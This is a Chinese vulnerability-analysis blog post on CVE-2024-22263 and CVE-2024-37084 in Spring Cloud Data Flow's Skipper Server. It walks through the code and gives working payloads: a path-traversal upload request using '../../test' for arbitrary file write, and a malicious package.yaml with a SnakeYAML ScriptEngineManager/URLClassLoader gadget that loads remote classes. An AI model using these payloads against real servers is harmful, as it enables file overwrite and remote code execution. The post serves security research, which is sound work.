 # CVE-2024-22263&amp;CVE-2024-37084漏洞分析

  
  
&lt;!--more--&gt;  
## 0x00 环境搭建  
源码  
[https://github.com/spring-cloud/spring-cloud-dataflow/tree/v2.11.2](https://github.com/spring-cloud/spring-cloud-dataflow/tree/v2.11.2)  
修改`src/docker-compose`目录下的`docker.compose-yml`文件，添加调试端口  
```yaml  
ports:  
  - &#34;7577:7577&#34;  
  - &#34;6006:6006&#34;  
  - ${APPS_PORT_RANGE:-20000-20195:20000-20195}  
  
- JAVA_TOOL_OPTIONS=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:6006  
```  
修改完后`docker compose up -d`启动  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201331922.png)
## 0x01 漏洞分析  
### CVE-2024-22263  
2.10.0&lt;=version&lt;=2.11.2  
`Skipper Server`在接收上传请求时对`zip`文件中的路径校验不严，具有`Skipper Server API`访问权限的攻击者可以通过上传请求将任意文件写入文件系统中的任意位置，从而获得服务器权限。  
直接定位到漏洞点  
`org.springframework.cloud.skipper.server.controller.PackageController`，访问`/api/package/upload`就可以调用到该方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201333443.png)
跟进到`this.packageService.upload()`，调用`validateUploadRequest()`对请求参数进行验证，主要验证验证如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201335405.png)
构造`payload`  
```python  
import zipfile    
import os    
    
# 创建 test.txtwith open(&#34;test.txt&#34;, &#34;w&#34;) as f:    
    f.write(&#34;Hello, this is a test file!&#34;)    
    
# 创建 test.zip 并添加 test.txtwith zipfile.ZipFile(&#34;test.zip&#34;, &#34;w&#34;, zipfile.ZIP_DEFLATED) as zipf:    
    zipf.write(&#34;test.txt&#34;)    
    
# 读取 ZIP 文件并转换为字节数组    
with open(&#34;test.zip&#34;, &#34;rb&#34;) as f:    
    byte_array = list(f.read())    
    
# 输出部分字节数组数据（避免输出过长）    
print(byte_array)  # 仅显示前100个字节  
```  
`http`  
````http  
{&#34;repoName&#34;:&#34;local&#34;,&#34;name&#34;:&#34;../../test&#34;,&#34;version&#34;:&#34;1.1.1&#34;,&#34;extension&#34;:&#34;zip&#34;,&#34;packageFileAsBytes&#34;:[80, 75, 3, 4, 20, 0, 0, 0, 8, 0, 239, 108, 84, 90, 219, 134, 15, 161, 27, 0, 0, 0, 27, 0, 0, 0, 8, 0, 0, 0, 116, 101, 115, 116, 46, 116, 120, 116, 243, 72, 205, 201, 201, 215, 81, 40, 201, 200, 44, 86, 0, 162, 68, 133, 146, 212, 226, 18, 133, 180, 204, 156, 84, 69, 0, 80, 75, 1, 2, 20, 3, 20, 0, 0, 0, 8, 0, 239, 108, 84, 90, 219, 134, 15, 161, 27, 0, 0, 0, 27, 0, 0, 0, 8, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 164, 129, 0, 0, 0, 0, 116, 101, 115, 116, 46, 116, 120, 116, 80, 75, 5, 6, 0, 0, 0, 0, 1, 0, 1, 0, 54, 0, 0, 0, 65, 0, 0, 0, 0, 0]}  
````  
验证完参数后会回到`this.packageService.upload()`，调`getRepositoryToUpload()`，参数是`repoName`，在该方法下会验证`repoName`存储库是否存在，不存在抛出异常  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201342832.png)
通过`/api/repositories`接口就可以查看系统所有的`repository`，这里默认的`repository`是`local`，在`unpack()`处进行了解压操作，  
```sh  
1、创建一个临时路径packageDirPath，将packageDirPath和name拼接起来，没有对name进行过滤，得到packageDir后，调用mkdidr()创建文件夹  
2、创建一个packageFile，该文件路径表示压缩包的路径    
3、获取packageFileAsBytes参数的内容写入到packageFile压缩包里，接着将压缩包解压到`packageDir`目录下  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201352495.png)
构造`poc`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201351004.png)
成功写入  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201350559.png)
### CVE-2024-37084  
仍然是上面的接口，在下面代码存在`this.packageReader.read()`，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201448557.png)
如果存在`package.yaml`文件，则会进入`loadPackageMetadata()`函数  
进行`yaml.load`反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201449520.png)
所以恶意的`package.yaml`文件如下  
```yaml  
apiVersion: 1.0.0  
origin: my origin  
repositoryId: 12345  
repositoryName: local  
kind: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [&#34;dnslog&#34;]]]]  
name: test1  
version: 1.1.1  
```  
所以我们只需要构造`test-1.1.1`文件夹下放入`package.yaml`文件即可  
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/cve-2024-22263cve-2024-37084%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/  

